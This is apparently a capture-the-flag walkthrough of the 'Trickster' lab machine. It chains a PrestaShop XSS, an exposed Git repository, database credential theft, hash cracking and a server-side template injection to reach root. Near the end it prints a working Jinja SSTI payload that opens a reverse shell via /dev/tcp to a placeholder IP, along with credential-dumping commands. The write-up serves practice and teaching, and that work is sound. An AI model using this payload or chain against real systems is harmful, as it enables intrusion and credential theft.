I begin with a full TCP port scan to identify exposed services on the target host.
nmap -sVC -p- --open -sS --min-rate 5000 -v -n -Pn -oN trickster_scan <IP_target>The scan reveals two open ports: 22 running SSH and 80 serving HTTP content. While enumerating the web service, I discover a virtual host configured as http://shop.trickster.htb/.
Navigating to this subdomain, I identify a login panel exposed on the application.

Using whatweb, I gather additional information about the web stack and confirm that the server is running Apache version 2.4.52.
The application allows user registration, which provides a foothold for further interaction with the platform.

While exploring the application directories, I discover that the .git directory is publicly accessible at http://shop.trickster.htb/.git/.
Inspecting the Git configuration files, I identify a user named admin.

Reviewing the Git logs reveals that an administrative panel was committed by the admin user. The commit message and hash provide valuable insight into recent changes.
0000000000000000000000000000000000000000 0cbc7831c1104f1fb0948ba46f75f1666e18e64c adam <adam@trickster.htb> 1716538399 -0400 commit (initial): update admin pannelUsing GitDumper, I extract the repository contents and analyze the commit with hash 0cbc7831c1104f1fb0948ba46f75f1666e18e64c. The code suggests the presence of a file upload vulnerability.
When selecting a product, I intercept the request with Burp Suite and observe application cookies, confirming backend behavior tied to the shop functionality.

The application clearly references Prestashop. Further directory enumeration leads me to an exposed administrative path at http://shop.trickster.htb/admin634ewutrx1jgitlooaj.
This endpoint redirects to a Prestashop administrator login panel, confirming the version in use as Prestashop 8.1.5.

Although the robots.txt file is accessible, it does not disclose any useful information. However, I identify a file manager endpoint located at admin634ewutrx1jgitlooaj/filemanager/force_download.ph.
Further testing reveals a reflected XSS vulnerability, tracked as CVE-2024-34716.

By leveraging the identified vulnerability, I am able to obtain a reverse shell on the target system. Once inside, I locate the Prestashop configuration file at /var/www/prestashop/app/config/parameters.php, which contains database credentials.
mysql -h 127.0.0.1 -u ps_user -p prestashopprest@shop_oselect * from ps_employee;Querying the database reveals credentials for the user james, including a bcrypt password hash.
james --> $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmmI crack the hash using John the Ripper and the rockyou wordlist.
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
With valid credentials obtained, I authenticate via SSH as the james user.

Enumerating the system reveals the presence of two additional user accounts.

To continue enumeration, I upload linpeas.sh to the target and adjust its permissions to allow execution.
LinPEAS highlights a Python script running under the runner user.
runner 1243 0.0 0.6 33660 24520 ? Ss Sep23 0:16 /usr/bin/python3 /home/runner/prestashop/AutoVisitAttach.pyI also observe multiple active ports and identify potential services related to PrusaSlicer.


Research suggests that PrusaSlicer 2.6.1 may be vulnerable to arbitrary code execution via file upload. Additionally, I identify the presence of a Docker container.

I perform SSH port forwarding to access the service running inside the container.
ssh -L 5000:172.17.0.2:5000 james@trickster.htbThe exposed service is vulnerable to a blind Server-Side Template Injection, which allows remote code execution. I use the following payload to spawn a reverse shell.
{% for x in ().__class__.__base__.__subclasses__() %}
{% if "warning" in x.__name__ %}
{{ x()._module.__builtins__['__import__']('os').popen("/bin/bash -c '/bin/bash -i >& /dev/tcp/<IP>/9999 0>&1'").read() }}
{% endif %}
{% endfor %}This grants me a shell as root inside the container.

Inspecting the bash history reveals a plaintext password.

I reuse these credentials to authenticate as root on the host system, completing the privilege escalation.
